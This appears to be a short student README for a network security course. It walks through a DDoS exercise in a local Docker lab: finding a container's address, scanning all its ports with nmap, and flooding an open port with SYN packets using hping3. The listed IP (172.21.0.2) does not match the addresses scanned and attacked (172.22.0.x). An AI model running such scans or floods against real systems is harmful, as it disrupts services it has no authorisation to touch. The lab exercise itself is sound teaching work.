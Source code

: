 # Network & Communication Security Project (DDoS Attack)

DDoS attack performed step by step.

1) First of all we start Swarmlab-hybrid by typing the following 2 commands in terminal
 
        cd swarmlab-hybrid

        ./start.sh

2) Then we go to http://localhost:3088/ -> Instances -> Container -> Select dummy_service -> Connect

3) After that we proceed inside the terminal by typing the following commands

        $ docker exec -it dummy_service /bin/sh

        $ ifconfig //(in order to find the inet addr we are looking for , in my case it was 172.21.0.2 )

        $ nmap -p- 172.22.0.* //With this command we scan for open ports , in my case it was 3001

        $ sudo hping3 -S 172.22.0.2 -p 3001
